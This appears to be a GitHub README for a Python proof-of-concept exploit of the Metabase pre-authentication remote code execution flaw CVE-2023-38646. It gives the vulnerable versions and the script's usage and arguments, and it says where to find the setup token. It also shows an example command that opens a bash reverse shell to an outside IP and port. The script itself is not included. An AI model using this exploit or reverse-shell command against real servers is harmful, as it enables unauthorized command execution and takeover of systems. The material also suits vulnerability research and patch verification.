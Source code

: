 # Metabase Pre-Auth RCE (CVE-2023-38646) POC
This is a python script which exploits the remote code execution vulnerability of Metabase's login software. It allows us to execute arbitrary commands on the server before authentication.

Vulnerable versions are Metabase open source before 0.46.6.1 and Metabase Enterprise before 1.46.6.1

## Usage
```
python3 exploit.py -u URL -t TOKEN -c COMMAND
```
## Arguments
```
-h, --help            show this help message and exit
-u URL, --url URL     Target URL
-t TOKEN, --token TOKEN
                      Setup-Token found in /api/session/properties
-c COMMAND, --command COMMAND
                      Command to be executed in the target host
```

## Example
![image](https://github.com/Pyr0sec/CVE-2023-38646/assets/74669749/705d63b5-4a52-42ae-bce7-4fb814883a79)

Command used: `bash -i >& /dev/tcp/10.10.14.26/9001 0>&1`

## References
[Chaining our way to Pre-Auth RCE in Metabase (CVE-2023-38646)](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/)
